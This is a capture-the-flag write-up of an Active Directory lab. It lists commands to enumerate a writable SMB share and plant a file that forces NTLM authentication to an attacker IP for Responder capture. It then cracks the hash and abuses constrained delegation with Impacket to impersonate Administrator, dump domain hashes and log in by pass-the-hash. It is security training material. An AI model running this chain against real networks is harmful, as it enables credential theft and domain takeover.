




# Active Directory Proxy Challange - Writeup

## 1. Initial Recon
We begin the assessment by scanning the target host using nmap to identify open ports and running services:

`nmap -sV -sC -T4 10.114.170.105 -oN scan-results.txt`

Next, we run **NetExec** using unauthenticated guest access to inspect available SMB shares:

`nxc smb 10.114.170.105 -u 'guest' -p '' --shares`

```r
SMB         10.114.170.105  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:ctf.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.114.170.105  445    DC01             [+] ctf.local\guest: 
SMB         10.114.170.105  445    DC01             [*] Enumerated shares
SMB         10.114.170.105  445    DC01             Share           Permissions     Remark
SMB         10.114.170.105  445    DC01             -----           -----------     ------
SMB         10.114.170.105  445    DC01             ADMIN$                          Remote Admin
SMB         10.114.170.105  445    DC01             C$                              Default share
SMB         10.114.170.105  445    DC01             IPC$            READ            Remote IPC
SMB         10.114.170.105  445    DC01             IT-Shared       READ,WRITE      IT Department Shared Resources
SMB         10.114.170.105  445    DC01             NETLOGON                        Logon server share 
SMB         10.114.170.105  445    DC01             SYSVOL                          Logon server share 


```
We observe **READ/WRITE** access to the **IT-Shared** directory.

## 2. Share Enumeration

`smbclient //10.114.170.105/IT-shared -N`

Inside, three files are present:

- IT-Onboarding-Checklist.txt
- IT-Credentials-Backup.txt
- IT-Portal.html 

Reviewing IT-Onboarding-Checklist.txt.   

**Note:**
File Scanner (svc.scanner): Runs every 2 minutes, enumerating IT-Shared for new files using shell enumeration to inspect file metadata and icons.

## 3. NTLM Hash Harvesting & Cracking
Executing the Attack

Knowing that svc.scanner periodically processes files in the IT-Shared directory using shell enumeration, we craft a payload pointing to our VPN IP address (tun0):

Exploit.ps1:
```ps1
Get-ChildItem \\192.168.138.79\icons\
```
Next, we start Responder on our VPN interface to listen for incoming authentication requests:

`sudo responder -I tun0 -dwv`


After collecting the hash we want to decrypted the hash 

### Cracking the hash wit John
We save the captured NTLMv2 hash to hash.txt and crack it using John the Ripper with rockyou.txt:
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `

The Result is **1summerlove!**
_Credentials_ : svc.scanner:1summerlove!

## 4. Active Directory Enumeration 
`sudo bloodhound-python -u 'svc.scanner' -p '1summerlove!' -d ctf.local -ns 10.114.170.105 -c All
`




Analysis reveals delegation rights for svc.scanner.
**Notice:** svc.scanner AllowedToDelegate to DC01.CTF.LOCAL

```bash
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.114.170.105   DC01 DC01.ctf.local ctf.local
```
We leverage Impacket's getST.py to request a Service Ticket (S4U2Self / S4U2Proxy) impersonating the Domain Administrator:

`impacket-getST ctf.local/svc.scanner:'1summerlove!' -spn cifs/DC01.ctf.local -impersonate Administrator -dc-ip 10.114.170.105`

We export the generated Kirbi/CCache ticket to our environment:
`export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache `
## 5. Privilege Escalation
Using the Kerberos ticket, we execute secretsdump.py to dump password hashes from the Domain Controller without requiring a password:

`impacket-secretsdump -k -no-pass ctf.local/Administrator@DC01.ctf.local`



Administrator NT Hash: dd4592176bb3f58eea4e87a8f0eaf270

Finally, we establish interactive administrative access using Evil-WinRM via Pass-the-Hash:

`evil-winrm -i 10.114.170.105 -u Administrator -H dd4592176bb3f58eea4e87a8f0eaf270`

